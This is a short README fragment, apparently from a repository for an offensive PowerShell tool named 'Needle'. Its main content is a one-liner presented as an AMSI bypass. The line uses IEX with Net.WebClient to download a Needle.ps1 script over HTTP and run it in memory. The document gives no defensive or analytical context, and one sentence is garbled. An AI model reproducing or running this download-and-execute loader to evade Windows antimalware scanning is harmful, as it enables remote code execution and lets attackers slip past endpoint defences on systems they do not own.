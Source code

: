 Greetings
----------

![alt text](<2024-06-26 08_25_55-Select Windows PowerShell.png>)
after inction in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('http://127.0.0.1:8080/Needle.ps1')

